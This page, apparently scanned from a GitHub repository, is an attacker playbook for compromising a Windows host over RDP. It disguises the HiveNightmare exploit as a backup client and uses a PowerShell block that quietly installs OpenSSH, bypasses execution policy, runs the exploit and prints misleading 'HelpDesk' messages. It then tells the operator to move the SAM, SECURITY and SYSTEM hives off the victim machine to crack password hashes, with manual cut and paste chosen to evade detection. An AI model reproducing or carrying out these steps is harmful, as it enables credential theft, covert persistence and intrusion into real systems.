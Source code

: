 With Unicode Characters:

From the RDP session window

Drag and drop the folder HelpDesk Service Pack from the remote drive into C:\\Users\\Public.

We have the following in our IT Service Pack folder:

Back-up-Client_v8.7.66.exe (HiveNightmare.exe)

OpenSSH.msi (OpenSSH installer executable)

SysinternalsSuite.zip (Sysinternals to use on the system, includes sysmon)

Run a powershell command to quietly install OpenSSH.msi, make volume shadow copies, and run Back-up-Client_v8.7.66.exe, also verifying the sshd service is running (as ADMINISTRATOR):

cd "C:\Users\Public\HelpDesk Service Pack"
echo "Installing SSH for secure remote sessions"
.\OpenSSH.msi /quiet 
echo "Enable Back-ups for data integrity" 
Enable-ComputerRestore -Drive "C:\" > $null 
vssadmin list shadows 
Checkpoint-Computer -Description "Manual Backup" -RestorePointType "MODIFY_SETTINGS"
set-executionpolicy -executionpolicy bypass -Force 
./Back-up-Client_v8.7.66.exe
echo "See if the new SSH service is running" 
cmd /c "sc query sshd"
echo "HelpDesk completed with '0' errors."

Credential harvesting from Volume Shadow Copies via HiveNightmare 

( IF HIVENIGHTMARE DIDN’T DROP THE FILES) Double click the Back-up-Client_v8.7.66.exe to gather the files needed to retrieve hashes from the system

Navigate to the victim machine’s C:\Users\Public\HelpDesk Service Pack folder

Cut the files, transfer them to our connected drive

ctl + lclick each file

ctl + x to cut the files from that directory

navigate to our connected drive in explorer

ctl + v in the folder to paste the files, taking them off the victim machine and exfiltrating them into our kali workstation

This method seems tedious, but it obfuscates the process with user input that scripts would not normally be able to achieve without heavy tweaking, timing, and jitters.

We will perform the same process as with the IT domain's credential cracking method, we will extract the passwords from the files dropped by HiveNightmare

This will create 3 files which we can then use with impacket to get credentials out of the system.
  	- SAM-YYYY-MM-DD
  	- SECURITY-YYYY-MM-DD
  	- SYSTEM-YYYY-MM-DD

CUT AND PASTE (ctl + x then ctl + v) the 3 files back to our local machine by dragging and dropping them into our remote folder in the RDP session's GUI.
